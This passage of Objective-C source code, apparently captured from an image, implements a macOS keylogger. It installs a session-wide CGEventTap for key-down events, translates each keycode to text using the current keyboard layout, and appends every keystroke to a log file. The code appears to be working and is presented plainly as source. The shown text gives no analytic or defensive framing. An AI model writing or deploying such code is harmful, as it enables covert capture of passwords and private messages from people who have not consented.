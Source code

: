 ```objectivec
            case kVK_F1: keyString = @"<F1>"; break;
            case kVK_F2: keyString = @"<F2>"; break;
            case kVK_F3: keyString = @"<F3>"; break;
            // Add more cases here for other non-printable keys...
            default: break; // Not a special non-printable key
        }

        // If it's not a special key, try to translate it
        if (!keyString) {
            UniCharCount maxStringLength = 4;
            UniCharCount actualStringLength = 0;
            UniChar unicodeString[maxStringLength];
            
            TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
            CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
            const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);
            
            UInt32 deadKeyState = 0;
            OSStatus status = UCKeyTranslate(keyboardLayout,
                                             keyCode,
                                             kUCKeyActionDown,
                                             0,
                                             LMGetKbdType(),
                                             kUCKeyTranslateNoDeadKeysBit,
                                             &deadKeyState,
                                             maxStringLength,
                                             &actualStringLength,
                                             unicodeString);
            CFRelease(currentKeyboard);

            if (status == noErr && actualStringLength > 0) {
                keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
            } else {
                keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
            }
        }

        NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
        AppendStringToFile(logString, kKeystrokesLogPath);
    }
    return event;
}

int main() {
    @autoreleasepool {
        CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
        CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

        if (!eventTap) {
            NSLog(@"Failed to create event tap");
            exit(1);
        }

        CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
        CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
        CGEventTapEnable(eventTap, true);
        CFRunLoopRun();
    }
```